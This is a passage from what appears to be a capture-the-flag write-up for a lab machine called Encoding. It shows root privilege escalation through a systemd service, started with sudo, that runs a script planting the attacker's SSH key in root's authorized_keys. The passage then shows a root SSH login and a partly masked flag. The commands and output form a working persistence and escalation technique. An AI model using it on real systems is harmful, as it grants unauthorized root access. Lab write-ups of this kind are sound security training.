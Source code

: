     [Service]
    ExecStart=/tmp/0xdf
    Type=simple
    Restart=always

    [Install]
    WantedBy=multi-user.target



`/tmp/0xdf` will look very similar to the git hook from earlier:



    #!/bin/bash

    mkdir -p /root/.ssh
    chmod 700 /root/.ssh
    echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys
    chmod 600 /root/.ssh/authorized_keys
    touch /tmp/script_ran



And I'll make sure to `chmod +x /tmp/0xdf`.

Now I'll restart the service, and `script_ran` is now present on the
box:



    svc@encoding:/etc/systemd$ sudo systemctl restart 0xdf
    svc@encoding:/etc/systemd$ ls -l /tmp/script_ran 
    -rw-r--r-- 1 root root 0 Apr 12 17:19 /tmp/script_ran



That's a good indication that the script executed as root.

SSH works as well:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@haxtables.htb
    Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-58-generic x86_64)
    ...[snip]...
    root@encoding:~#



And I can get `root.txt`:



    root@encoding:~# cat root.txt
    52e6c280************************



## Beyond Root

### Background
